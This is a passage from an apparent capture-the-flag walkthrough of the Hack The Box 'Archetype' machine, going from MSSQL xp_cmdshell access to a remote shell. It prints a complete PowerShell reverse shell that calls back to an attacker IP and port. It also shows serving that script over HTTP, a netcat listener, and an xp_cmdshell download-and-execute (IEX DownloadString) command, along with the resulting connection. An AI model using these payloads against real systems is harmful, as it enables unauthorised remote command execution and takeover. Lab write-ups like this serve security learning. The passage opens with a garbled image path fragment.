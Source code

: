```
```

Now we have a command shell!  We can then turn this into a nicer shell.  Our python command from Passage unfortunately does not work;
```
SQL> xp_cmdshell "python -c 'import pty; pty.spawn("/bin/bash")'"
[-] ERROR(ARCHETYPE): Line 1: Incorrect syntax near 'import'.
```

However, I searched online and found this, which will enumerate ports on the system (using powershell) so that we can get a reverse shell:
```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.34", 1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.close()
```

We need to change the IP address to your `tun0` one:
```bash
$ ifconfig | grep -A 1 'tun0' | tail -1 | grep -o -P 'inet(.{0,15})' | grep -oE '((1?[0-9][0-9]?|2[0-4][0-9]|25[0-5])\.){3}(1?[0-9][0-9]?|2[0-4][0-9]|25[0-5])';
10.10.14.34
```
And the port to the one you want to use (e.g., `1234`).

To host this reverse shell file. we need to set up a mini server.  We do this by, on our machine, running a python command (be sure to do this in the same directory as your powershell reverse shell file!):
```bash
$ sudo python3 -m http.server 80
[sudo] password for jakeireland:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now we run a netcat listener on the port specified in our reverse shell file above:
```bash
$ nc -nvlp 1234
listening on [any] 1234 ...
```

Now we need to upload our reverse shell file to the SQL database.  We found [this](https://github.com/frizb/Windows-Privilege-Escalation#uploading-files-with-powershell) online for how to upload files, so we run the following:
```
SQL> xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.34/shell.ps1\");"
```
We run this and see that our netcat listener picks up something!:
```
$ sudo rlwrap nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.27] 49710
```
